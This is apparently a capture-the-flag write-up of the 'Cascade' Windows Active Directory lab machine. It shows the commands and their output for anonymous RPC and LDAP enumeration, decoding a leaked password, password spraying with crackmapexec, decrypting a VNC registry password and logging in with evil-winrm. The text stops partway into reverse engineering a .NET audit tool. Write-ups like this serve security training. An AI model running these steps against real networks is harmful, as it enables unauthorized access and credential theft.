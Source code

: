 ```yaml
---
title: "Cascade"
layout: post
---
```


Operating System: Windows <br>
Rating: <span style="color:orange">Medium</span> <br>
My Rating: <span style="color:orange">Medium</span> <br>

## Overview
Enumerate possible user accounts with SMB then poke at LDAP to find a base64 encoded password that sticks out. With those credentials you can login to an SMB user and find a registery
file that contains set of credentials encoded in hex. These credentials will then give us access to a .NET application that we can reverse to find out how password are being decrypted
for a database. This will give us access to Active Directory via remote login which we can "scavenge" the recycle bin and find credentials for an Administrator account.

## Recon
As always, Nmap the box to find open ports which we can enumerate further. The following ports were open:
{% highlight bash %}
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-04 13:39:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m41s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-04-04T13:40:36
|_  start_date: 2020-04-04T11:27:34
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
{% endhighlight %}
Just by seeing DNS (port 53), SMB (port 139) and ldap (port 389) I can tell we are dealing with Active Directory. <br>
The LDAP banner confirms it as well as giving us the domain name 'cascade.local'. <br>
Quick tip: if you take a look at the hostname 'CASC-DC1', DC usually stands for domain controller which is a massive hint that the machine is an Active Directory.
## Enumeration
### RPC
First things first, lets try leak some usernames since port 5985 is open which is typically for remote login. There are several ways to enumerate usernames but the quickest is to login anonymously with rpcclient by specifying an empty username/password and using the 'enumdomusers' command:
{% highlight bash %}
root@crab:~/Desktop/hax/box/cascade# rpcclient 10.10.10.182 -U ''
Enter password: 
rpcclient $> enumdomusers
user:[CascGuest] rid:[0x1f5]
user:[arksvc] rid:[0x452]
user:[s.smith] rid:[0x453]
user:[r.thompson] rid:[0x455]
user:[util] rid:[0x457]
user:[j.wakefield] rid:[0x45c]
user:[s.hickson] rid:[0x461]
user:[j.goodhand] rid:[0x462]
user:[a.turnbull] rid:[0x464]
user:[e.crowe] rid:[0x467]
user:[b.hanson] rid:[0x468]
user:[d.burman] rid:[0x469]
user:[BackupSvc] rid:[0x46a]
user:[j.allen] rid:[0x46e]
user:[i.croft] rid:[0x46f]
{% endhighlight %}
You can use the magical sed and awk commands to keep just the usersnames or do it manually (if you do it manually i respect your dedication). <br> 
Here is a command that will make your life a breeze:
{% highlight bash %}
cat temp.txt | awk -F\[ {'print $2'} | awk -F\] {'print $1'} > users.txt
cat users.txt
CascGuest
arksvc
s.smith
r.thompson
util
j.wakefield
s.hickson
j.goodhand
a.turnbull
e.crowe
b.hanson
d.burman
BackupSvc
j.allen
i.croft
{% endhighlight %}
### LDAP
We have usernames now but we still possible password which can be found using ldapsearch. Lets start by dumping everything into a file using anonymous LDAP login and go on from there.
{% highlight bash %}
ldapsearch -x -h 10.10.10.182 -b dc=cascade,dc=local > ldap/anonymous.ldap
{% endhighlight %}
Using grep on a file rather than calling ldapsearch each time is probably the best idea; in this case I printed out the file that contained the output of ldap and used grep to filter out anything that was unique. <br> 
Sifting through the output, "cascadeLegacyPwd: clk0bjVldmE=" stands out and decoding the base64 gives us a potential password.
{% highlight bash %}
cat ldap/anonymous.ldap | sort | uniq -c
...
   1  cade.local                                                                                                                      
      3  cal                                                                                                                             
      1  =cascade,DC=local                                                                                                               
      3  cascade,DC=local                                                                                                                
      1 cascadeLegacyPwd: clk0bjVldmE=                                                                                                   
      3   cascade.local                                                                                                                  
      1 # cascade.local                                                                                                                  
      1 # CASC-DC1, Domain Controllers, cascade.local  
...
echo clk0bjVldmE= | base64 -d
rY4n5eva
{% endhighlight %}
### SMB
We still do not know who the password belongs to so im going to spray and pray. Remember to check password policies before spraying blindly since some accounts might end up getting blocked preventing you from logging in.
{% highlight %}
crackmapexec smb 10.10.10.182 -u u.txt -p rY4n5eva
CME          10.10.10.182:445 CASC-DC1        [+] CASCADE\r.thompson:rY4n5eva
{% endhighlight %}
We got a hit for SMB! Usually we would try the credentials with evil-winrm, but in this case it looks like r.thompson is not part of the remote login group since his credentials were invalid. <br>
Poking at the SMB shares available to r.thompson with smbmap, there is a specific share called 'Data' and could potentially contain sensitive information.
{% highlight bash %}
smbmap -H 10.10.10.182 -u r.thompson -p rY4n5eva
[+] IP: 10.10.10.182:445        Name: cascade.local                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 
{% endhighlight %}
Let's go ahead and access the Data share with r.thompson's credentials and further enumerate. <br>
There is an interesting registry file under the /IT/Temp/s.smith directory in the 'Date' share. Lets retrieve it for examination.
{% highlight %}
smbclient \\\\10.10.10.182\\Data -U r.thompson -p
Enter r.thompson password:
smb: \> cd IT
smb: \IT\> dir
  .                                   D        0  Tue Jan 28 13:04:51 2020
  ..                                  D        0  Tue Jan 28 13:04:51 2020
  Email Archives                      D        0  Tue Jan 28 13:00:30 2020
  LogonAudit                          D        0  Tue Jan 28 13:04:40 2020
  Logs                                D        0  Tue Jan 28 19:53:04 2020
  Temp                                D        0  Tue Jan 28 17:06:59 2020

smb: \IT\> cd Temp
smb: \IT\Temp\> dir
  .                                   D        0  Tue Jan 28 17:06:59 2020
  ..                                  D        0  Tue Jan 28 17:06:59 2020
  r.thompson                          D        0  Tue Jan 28 17:06:53 2020
  s.smith                             D        0  Tue Jan 28 15:00:01 2020

smb: \IT\Temp\> cd s.smith
smb: \IT\Temp\s.smith\> dir
  .                                   D        0  Tue Jan 28 15:00:01 2020
  ..                                  D        0  Tue Jan 28 15:00:01 2020
  VNC Install.reg                     A     2680  Tue Jan 28 14:27:44 2020

smb: \IT\Temp\s.smith\> get "VNC Install.reg"
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as VNC Install.reg (6.1 KiloBytes/sec) (average 6.1 KiloBytes/sec)
{% endhighlight %}
Reading the file reveals a possible password encoded in hex as well as other configuration settings.
{% highlight bash %}
...
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
...
{% endhighlight %}
Decoding the hex gives us junk characters so it might not be in plain text. A quick Google search for a way to decode VNC type hex reveals that we can use msfconsole to decode it into plain text by giving it a fixed key:
{% highlight bash %}
msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
=> true
>>  Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
=> "sT333ve2"
{% endhighlight %}
Just like that we have s.smith's password!
# Gaining access
## s.smith
Now that we have s.smith's credentials, we can try login with evil-winrm and pray s.smith is in the Remote Management group.
{% highlight bash %}
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2
*Evil-WinRM* PS C:\Users\s.smith\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\s.smith\Desktop> dir    
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/27/2020   8:27 PM             34 user.txt
-a----        3/25/2020  11:17 AM           1031 WinDirStat.lnk
{% endhighlight %}
Nice, we got the user flag :) <br>
If you noticed from before, the SMB Audit share was not readable by r.thompson but now with s.smith we are able to access it. 
{% highlight bash %}
smbclient \\\\10.10.10.182\\Audit$ -U s.smith -p
Enter s.smith\'s password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                       A    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                      A    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020
  smb: \> cd DB
  smb: \DB\> dir
  .                                   D        0  Tue Jan 28 16:40:59 2020
  ..                                  D        0  Tue Jan 28 16:40:59 2020
  Audit.db                            A    24576  Tue Jan 28 16:39:24 2020

{% endhighlight %}
Those are some juicy files that we can try reverse engineer. Lets break it down piece by piece since reverse engineering gets messy pretty fast. <br>
We have 4 files that are interesting:
<ul>
        <li><b>CascAudit.exe:</b> Main executable</li>
        <li><b>CascCrypto.dll:</b> Encrypts and Decrypts</li>
        <li><b>RunAudit.bat:</b> Gives us the correct arugument to run the the executable (the Audit database file)</li>
        <li><b>Audit.db:</b> Database containing the users</li>
</ul>
We will be using DnSpy to reverse and view the source code. The first thing that catches my eye is the password being decrepted with a key and saved into a variable: <br>
What if we added a breakpoint here and ran CascAudit.exe with the database file as an argument? Theoretically, we should be able to read the password before at the breakpoint in plain text.
